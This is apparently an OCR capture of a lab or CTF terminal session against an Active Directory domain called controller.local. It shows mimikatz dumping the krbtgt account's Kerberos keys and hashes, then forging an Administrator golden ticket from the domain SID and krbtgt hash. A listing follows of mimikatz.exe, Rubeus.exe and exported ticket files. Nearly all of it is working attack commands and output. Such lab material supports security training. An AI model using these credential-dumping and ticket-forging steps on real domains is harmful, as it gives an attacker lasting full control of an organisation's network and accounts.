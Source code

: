 ```
    27  919f61b2c84eb1ff8d49ddc7871ab9e0
    28  d5c266414ac9496e0e66ddcac2cbcc3b
    29  aae5e850f950ef83a371abda478e05db

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 79bf07137a8a6b8f

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : dfb518984a8965ca7504d6d5fb1cbab56d444c58ddff6c193b64fe6b6acf1033
      aes128_hmac       (4096) : 88cc87377b02a885b84fe7050f336d9b
      des_cbc_md5       (4096) : 79bf07137a8a6b8f

 * NTLM-Strong-NTOWF
    Random Value : 4b9102d709aada4d56a27b6c3cd14223

mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
ERROR kuhl_m_kerberos_golden ; Missing krbtgt key argument (/rc4 or /aes128 or /aes256)

mimikatz # Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-432953485-3795405108-1502158860
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 72cd714611b64cd4d5550cd2759db3f6 - rc4_hmac_nt
Lifetime  : 8/20/2022 12:12:15 PM ; 8/17/2032 12:12:15 PM ; 8/17/2032 12:12:15 PM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```
```
C:\Users\Administrator\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is E203-08FF

 Directory of C:\Users\Administrator\Downloads

08/20/2022  12:12 PM    <DIR>          .
08/20/2022  12:12 PM    <DIR>          ..
05/25/2020  03:45 PM         1,263,880 mimikatz.exe
05/25/2020  03:14 PM           212,480 Rubeus.exe
08/20/2022  12:12 PM             1,429 ticket.kirbi
08/20/2022  11:47 AM             1,787 [0;19dd6f]-1-0-40a50000-CONTROLLER-1$@GC-CONTROLLER-1.CONTROLLER.local.kirbi
08/20/2022  11:47 AM             1,761 [0;1ff6a2]-0-0-40a10000-Administrator@CONTROLLER-1-HTTPService.CONTROLLER.local~30222.kirbi
08/20/2022  11:47 AM             1,759 [0;1ff6a2]-0-1-40a10000-Administrator@CONTROLLER-1-SQLService.CONTROLLER.local~30111.kirbi
08/20/2022  11:47 AM             1,595 [0;1ff6a2]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
```